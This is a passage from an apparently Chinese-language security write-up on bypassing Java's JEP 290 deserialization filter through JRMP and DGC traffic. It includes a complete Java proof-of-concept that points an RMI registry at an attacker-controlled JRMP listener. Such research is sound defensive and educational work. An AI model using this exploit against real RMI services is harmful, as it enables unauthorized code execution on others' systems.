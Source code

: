 ```java

        this.hadConnection = true;
        synchronized ( this.waitLock ) {
            this.waitLock.notifyAll();
        }
    }
```

`这是因为JEP 290只是在JRMP之上的反序列化过程中注入了Filter，而在JRMP层对错误的处理没有进行反序列化过滤。`.

最后在eki师傅的文章中，想到了server和register的通信中`DGC`的通信也是基于JRMP，所以同样可以使用。原理同上

```java
package com.dem0.vuln;

import sun.rmi.transport.tcp.TCPEndpoint;

import java.lang.reflect.Constructor;
import java.rmi.server.ObjID;
import java.rmi.server.UnicastRemoteObject;

import static com.dem0.rmi.Main.sendRawCall;
//import static com.dem0.util.Reflections.getFieldValue;
//import static com.dem0.util.Reflections.setFieldValue;
import com.dem0.utils.Reflections;


public class AttackRegistryByJRMPListener {
    public static void main(String[] args) {
        try {
            String registryHost = "127.0.0.1";
            int registryPort = 1099;
            String JRMPHost = "127.0.0.1";
            int JRMPPort = 2499;

            Constructor<?> constructor = UnicastRemoteObject.class.getDeclaredConstructor(null);
            constructor.setAccessible(true);
            //因为UnicastRemoteObject的默认构造方式是protect的，所以需要反射调用

            UnicastRemoteObject remoteObject = (UnicastRemoteObject) constructor.newInstance(null);
            TCPEndpoint ep = (TCPEndpoint) Reflections.getFieldValue(Reflections.getFieldValue(Reflections.getFieldValue(remoteObject,"ref"),"ref"),"ep");

            //这里直接反射修改对应的值，间接修改构造的序列化数据
            Reflections.setFieldValue(ep,"port",JRMPPort);
            Reflections.setFieldValue(ep,"host",JRMPHost);


            ObjID objID_ = new ObjID(0);

            //Bind("test",payloadObj)
            sendRawCall(registryHost,registryPort,objID_,0,4905912898345647071L,"test",remoteObject);

        }catch (Throwable t){
            t.printStackTrace();
        }
    }

}
```
